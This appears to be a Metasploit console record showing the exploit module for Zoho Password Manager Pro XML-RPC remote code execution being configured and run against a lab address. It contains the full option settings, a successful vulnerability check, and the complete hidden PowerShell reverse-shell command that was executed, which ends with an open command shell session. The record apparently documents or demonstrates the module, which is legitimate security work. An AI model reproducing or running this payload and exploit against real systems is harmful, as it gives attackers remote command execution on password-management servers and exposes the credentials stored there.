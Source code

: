 ```

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.17.245.94    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metas
                                         ploit
   RPORT      7272             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/reverse_powershell):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.255.112   yes       The listen address (an interface may be specified)
   LPORT  8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command


msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.17.255.112:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Windows Command for cmd/windows/reverse_powershell
[+] Successfully executed command: powershell -w hidden -nop -c $a='172.17.255.112';$b=8899;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
[*] Command shell session 1 opened (172.17.255.112:8899 -> 172.17.245.94:56612) at 2022-08-02 11:37:28 -0500


```